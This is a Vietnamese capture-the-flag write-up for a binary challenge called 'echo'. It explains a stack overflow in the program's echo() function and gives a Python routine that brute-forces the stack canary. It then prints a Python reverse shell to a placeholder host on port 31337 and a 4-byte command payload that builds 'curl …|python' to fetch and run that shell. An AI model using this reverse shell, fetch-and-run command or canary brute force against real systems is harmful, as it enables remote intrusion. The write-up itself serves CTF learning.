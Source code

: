 Đề cho t file **echo**</br>
![image](https://user-images.githubusercontent.com/23306492/40347441-7fa99dfe-5dca-11e8-9556-106b67a58c2d.png)</br>
 **enable** NX, canary</br>
![image](https://user-images.githubusercontent.com/23306492/40347475-a6df330c-5dca-11e8-9b4f-5e6e69d98fb8.png)</br>
Chương trình có 2 function chính : `fun()` nhập số luckynumber và `echo` nhâp  echo</br>
![image](https://user-images.githubusercontent.com/23306492/40347624-223ecf3a-5dcb-11e8-89f5-c7f42d267a8e.png)</br>
Trong hàm fun() `luckynumber = 0x0804B098`</br>
![image](https://user-images.githubusercontent.com/23306492/40347543-e06027f8-5dca-11e8-9330-e32dedb0bfdb.png)</br>
Trong hàm `echo()` </br> có lỗi stack overflow `n = recv(fd, &buf, 0x11Cu, 0);`, Vì buf nằm ở ebp-0x10c mà ta đọc tới 0x11c bytes lên buf</br>
![33085437_1701128753336171_1744560662744399872_n](https://user-images.githubusercontent.com/23306492/40372478-fb230364-5e0e-11e8-858f-5b8952d5237b.png)
</br>
Trước tiên thì ta cần `leak canary` sử dụng brute force. Tương tự như write up **codegate-prequels 2017 babypwn** [link](https://github.com/VulnHub/ctf-writeups/blob/master/2017/codegate-prequels/babypwn.md)
```
def leak_canary():
	canary = ""
	canary_offset = 0x100
	guess = 0x0
	buf = ""
	buf += "A" * canary_offset
	buf += canary
	while len(canary) < 4:
		while guess != 0xff:
			try:
				r = remote("localhost",12345)
				context.log_level = "critical"
				r.recvuntil("number: ")
				r.sendline(str(12345))
				r.recvuntil("Enter what you want to echo: ")
				r.send(buf + chr(guess))
				r.recvuntil("Bye bye!")
				print "Guessed correct byte:", format(guess, '02x')
				canary += chr(guess)
				buf += chr(guess)
				guess = 0x0
				r.close()
				break
			except EOFError,e:
				guess += 1
	return canary
```
![image](https://user-images.githubusercontent.com/23306492/40347714-6a405a24-5dcb-11e8-81db-a46cf987896a.png)</br>
Với bài này thì ta sử dụng system 4 byte để exploit. Tương tự như bài [babyfirst-revenge-v2 hitcon 2017](https://github.com/orangetw/My-CTF-Web-Challenges/blob/master/hitcon-ctf-2017/babyfirst-revenge-v2/exploit.py) và  [Reverse Shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)</br>
```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("xxx.xxx.xxx.xxx",31337))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```
```
payload = [
# generate "g> ht- sl" to file "v"
    '>dir', 
    '>sl', 
    '>g\>',
    '>ht-',
    '*>v',

    # reverse file "v" to file "x", content "ls -th >g"
    '>rev',
    '*v>x',
    # generate "curl xxx.xxx.xxx.xxx|python;"
    '>\;\\', 
    '>on\\', 
    '>th\\', 
    '>py\\', 
    '>\|\\', 
    '>xx\\', 
    '>x\\', 
    '>x.\\', 
    '>xx\\', 
    '>x.\\', 
    '>xx\\', 
    '>x.\\', 
    '>xx\\', 
    '>\ \\', 
    '>rl\\', 
    '>cu\\', 
    # got shell
    'sh x', 
    'sh g', 
]
```
[PAYLOAD](https://github.com/k4k4/SEATHON/blob/master/echo/echo.py)</br>
![echo](https://user-images.githubusercontent.com/23306492/40348447-f1fff918-5dcd-11e8-87e3-a77bbd71d930.png)
